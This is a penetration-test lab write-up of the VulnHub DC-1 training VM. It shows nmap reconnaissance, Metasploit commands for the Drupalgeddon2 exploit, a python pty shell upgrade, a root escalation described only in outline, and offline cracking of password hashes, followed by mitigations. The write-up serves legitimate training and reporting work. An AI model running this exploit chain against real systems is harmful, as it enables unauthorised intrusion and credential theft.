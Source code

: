 # Lab Report: VulnHub DC-1 — Full Exploitation Chain

## Executive Summary

**This engagement simulated an external penetration test of the VulnHub DC-1 virtual machine, which hosts a Drupal-based web application. The assessment revealed multiple exploitable weaknesses that allowed an attacker to:**

- Gain initial access via a critical Drupal vulnerability (CVE-2018-7600, “Drupalgeddon2”).

- Escalate privileges from the web application user to full root access.

- Extract sensitive data including database credentials and password hashes.

**In a production environment, exploitation would result in complete system compromise, loss of sensitive data, and potential pivoting deeper into the network.**

---
## Key Takeaways / Skills Demonstrated

- Full-stack exploitation: web application foothold → privilege escalation → post-exploitation.

- Use of Metasploit, Netcat, enumeration tools.

- Password hash extraction and offline cracking.

- Demonstrates end-to-end penetration testing methodology and risk reporting.

---

**Lab Name:** VulnHub DC-1  
**Type:** Infrastructure & Privilege Escalation  
**Skill Level:** Intermediate  
**Tools Used:** Nmap, Gobuster, Nikto, Metasploit, Netcat  
**Report:** [VulnHub-DC-1-Report.pdf](VulnHub-DC-1-Report.pdf)  
**MITRE ATT&CK:** Initial Access, Privilege Escalation, Credential Access

---
- Author: Eric Graham
- Date: 07/24/2025
- Target: VulnHub DC-1
- Lab Type: Full-Stack Infrastructure Penetration Test  
- Skill Level: Intermediate  
- Focus: Enumeration, Web Exploitation, Privilege Escalation  

---

## 🎯 Objective

Demonstrate a full exploitation chain on the DC-1 VulnHub VM.  
This lab shows how to gain a foothold, escalate privileges, access sensitive data, and document realistic mitigations.

---

## 🛠️ Lab Environment

- **Target:** DC-1 VulnHub VM
- **Attacker:** Kali Linux
- **Network:** NAT
- **Tools:** Nmap, Hydra, Metasploit, Netcat, Hashcat, John the Ripper

---

## 🔗 Exploitation Chain Summary

| Stage | Description |
|-------|--------------|
| Recon | Identified open services, Drupal CMS |
| Foothold | Exploited Drupalgeddon2 vulnerability |
| Privilege Escalation | Escalated from `www-data` to `root` |
| Post-Exploitation | Retrieved `thefinalflag.txt` |
| Mitigation | Patching, upgrade, and lockout controls |

---

## 🔍 Recon & Enumeration

**Nmap Full Port Scan**

```bash
nmap -sV -A <target-ip>
````
![nmap_scan](/screenshots/vulnhub/nmap_scan.png)

![netdiscovery](/screenshots/vulnhub/netdiscover.png)

![netdiscovery](/screenshots/vulnhub/netdiscovery_output.png)

**Result:**

* Port 80: Drupal site discovered
* Other open ports confirmed basic services

---

## ⚡ Initial Foothold

**Vulnerability:** Drupalgeddon2 (CVE-2018-7600)

**Steps:**

1. Launched `exploit/unix/webapp/drupal_drupalgeddon2` in Metasploit:

   ```bash
   use exploit/unix/webapp/drupal_drupalgeddon2
   set RHOSTS <target-ip>
   set TARGETURI /  
   run
   ```
![metasploit](/screenshots/vulnhub/msf_search_exploit.png)

![metasploit](/screenshots/vulnhub/msf_drupalgeddon2.png)

2. Gained a `meterpreter` session.

3. Spawned a proper bash shell:

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
![meterpreter](/screenshots/vulnhub/script_better_shell.png)

---

## 🚀 Privilege Escalation

**Escalation Path:**

* Enumerated vulnerable configurations.
* Used `find` and `sudo` misconfigs to escalate from `www-data` to `root`.

**Proof:**

```bash
id
# uid=0(root)
```
![meterpreter](/screenshots/vulnhub/shell_root.png)


**Retrieved Final Flag:**

```bash
cd /root
ls
cat thefinalflag.txt
```

---

## 📌 Post-Exploitation

* Verified root shell access.
* Enumerated system files.
* Extracted Drupal database creds.
* Identified password hash `$S$...` and cracked offline.

![drupal](/screenshots/vulnhub/drupal_user_escalation.png)

![meterpreter](/screenshots/vulnhub/user_table.png)

![meterpreter](/screenshots/vulnhub/eric_user_admin.png)


![meterpreter](/screenshots/vulnhub/hashcat_crack.png)

![meterpreter](/screenshots/vulnhub/hash_crack.png)
---

## ⚖️ Risk & Business Impact

* **Risk:** Critical. Full system compromise including root access.
* **Impact:** Attackers could deface content, steal credentials, pivot to internal networks.
* **Likelihood:** High due to public exploit.

---

## 🛡️ Mitigation & Remediation

| Risk | Recommendation |
|------|----------------|
| Outdated Drupal core | Apply latest security patches |
| Weak admin password | Enforce strong, unique passwords |
| Brute-force possible | Limit login attempts & enable 2FA |
| Privilege escalation possible | Harden permissions & monitor logs |

---

## 📚 Lessons Learned

* Using **Hydra** and **Hashcat** for brute force on **salted hashes** can be *very time-consuming* — better to combine with other vectors (e.g., database access).
* Aggressive brute forcing on login forms with lockouts causes delays — next time, check for lockout controls *before launching Hydra*.
* **Always note down** credentials, tables, and user hashes as you enumerate — saves time if you need to reset or pivot later.
* Consider using `drupal user-password` SQL queries to reset admin passwords *directly* instead of brute forcing.
* **Document everything** — clear evidence and commands help with report clarity.

---

## Final Outcome

**Root access confirmed, final flag captured.
Vulnerability chain: Recon → Exploit → Escalate → Proof → Mitigation.**

---

~ Eric Graham

